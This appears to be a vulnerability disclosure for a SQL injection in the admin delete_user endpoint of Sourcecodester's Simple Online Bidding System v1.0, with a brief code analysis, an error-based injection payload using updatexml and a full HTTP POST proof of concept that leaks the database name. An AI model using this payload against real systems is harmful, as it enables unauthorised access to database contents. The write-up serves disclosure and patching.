 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/ajax.php?action=delete_user

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

<img width="911" alt="image" src="https://github.com/xyj123a/cve/assets/141597908/d7e1353c-34cd-4e7d-b0a2-c322518db97d">
In this method, the id parameter is controllable and directly brought into the SQL statement.
<img width="950" alt="image" src="https://github.com/xyj123a/cve/assets/141597908/240557e2-a803-4ac5-b46d-1fa41be67c48">

#### 2.Vulnerability verification and exploit

We can use methods such as error injection to exploit vulnerabilities. The database name and any information about the database can be obtained through this injection point.

```
id=1%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

POC
```
POST /simple-online-bidding-system/admin/ajax.php?action=delete_user HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 59
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/admin/index.php?page=users
Cookie: PHPSESSID=q643apn08ggv5g81r5q8pocl6t
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

id=1%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```
<img width="1259" alt="image" src="https://github.com/xyj123a/cve/assets/141597908/e0b235c8-b310-4f15-96db-b65556983558">

Get the database name: bidding_db
